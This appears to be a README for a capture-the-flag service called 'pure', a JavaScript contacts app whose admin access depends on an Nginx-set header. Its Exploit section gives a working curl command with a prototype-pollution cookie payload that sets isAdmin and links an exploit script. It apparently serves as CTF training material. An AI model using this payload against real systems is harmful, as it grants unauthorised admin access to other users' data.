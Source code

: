 # pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:

![schema](schema.png)

The user interface allows to:

1. Register a new user

   ![Example of registration screen](register.png)

2. Create a contact
   ![Example of contact creation screen](create_contact.png)

3. Change theme to dark mode
   ![Example of dark mode screen](dark_mode.png)

Also there is an admin interface that allows to view contacts of all users:
![Example of the admin interface](admin.png)

The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:
```
server {
    ...
    ssl_client_certificate /etc/ssl/certs/ca.crt;
    ssl_verify_client optional;

    location / {
        ...
        proxy_set_header VERIFIED $ssl_client_verify;
        ...
    }
}
```

Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:
```
if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
    req.session.isAdmin = true;
} else {
    if (req.session && req.session.isAdmin) {
        delete req.session.isAdmin;
    }
}
```

## Vulnerability Description

TODO

## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:
```
curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie 'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'
```

You can find an exploit at [/sploits/pure/sploit.py](../../sploits/pure/sploit.py).
